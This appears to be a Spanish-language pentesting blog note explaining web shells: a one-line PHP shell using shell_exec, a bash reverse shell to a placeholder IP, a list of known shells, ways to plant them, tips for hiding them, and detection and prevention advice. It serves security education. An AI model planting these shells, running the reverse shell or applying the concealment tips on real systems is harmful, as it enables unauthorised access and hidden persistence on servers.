 
---
title: "Web Shells: Tu consola secreta en el servidor"
author: "l1ttl3bugc4t"
date: "2025-05-12"
tags: [Web Shell, Pentesting, Shell Access, Red Team, Backdoor, Seguridad Web]
categories: [Cuaderno, Red Team & Chill, CyberChallenges]
---

**Web Shells** son como tener una consola remota… pero *oculta en una página web*.  
Perfectas para mantener acceso después de explotar una vulnerabilidad 😼🖥️

---

## 🧠 ¿Qué es una Web Shell?

Una **web shell** es un archivo (generalmente `.php`, `.asp`, `.jsp`, etc.) que actúa como **una terminal interactiva dentro de una aplicación web**.  
Permite ejecutar comandos del sistema, subir archivos, navegar carpetas y mucho más desde un navegador.

---

## 🔥 Ejemplo básico (PHP)

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Accediendo a:

```
http://victima.com/shell.php?cmd=whoami
```

Resultado:

```
apache
```

---

## 🧪 Web Shells populares

| Nombre | Lenguaje | Funcionalidades |
|--------|----------|-----------------|
| `c99`  | PHP      | UI completa, navegación, comandos, SQL |
| `r57`  | PHP      | Más sigilosa, comandos básicos |
| `WSO`  | PHP      | Potente con GUI y opciones post-exploit |
| `China Chopper` | ASP / JSP | Usada en APTs, ultra pequeña |
| `B374K` | PHP     | Encriptada, con login y funciones avanzadas |

---

## 🚩 Cómo se instalan

- Subida mediante formularios sin validación
- Inclusión remota (RFI)
- Vulnerabilidades LFI + log poisoning
- Explotación de servicios FTP, SMB o CMS
- Desde una shell reversa temporal (como backdoor persistente)

---

## 🛠️ Comandos y trucos comunes

- Navegar archivos: `ls`, `cd`, `cat`
- Crear nuevo usuario: `net user nuevo /add`
- Reverse shell: `bash -i >& /dev/tcp/tu_ip/4444 0>&1`
- Escalar privilegios: enumerar SUIDs o usar linpeas

---

## 🔐 Recomendaciones para ocultarlas

- Nombres inocentes: `image.php`, `404.jsp`, `admin.asp`
- Codificación base64 o cifrado simple
- Comprobación de IP o user-agent antes de ejecutarse
- Uso de password para acceso

---

## 🧼 Cómo detectarlas

- Archivos nuevos o modificados en el servidor
- Comportamientos anómalos o comandos inesperados en logs
- Actividad de red saliente inusual
- Escaneo con herramientas como:
  - `LMD (Linux Malware Detect)`
  - `YARA Rules`
  - `ClamAV`

---

## 🛡️ Cómo prevenirlas

- Validar y restringir subida de archivos
- Configurar permisos adecuados (no permitir ejecución en `/uploads`)
- Filtrar extensiones, contenido y tipo MIME
- Monitorizar cambios en archivos sensibles
- Usar WAF y segmentación de roles

---

## ✨ Conclusión

Las **web shells** son puertas traseras disfrazadas de páginas inofensivas.  
Pequeñas, sigilosas… y letalmente efectivas en un pentest bien ejecutado 🐾💣

> _"Una shell es silenciosa… hasta que ejecutas tu primer comando."_ — **l1ttl3bugc4t**

---
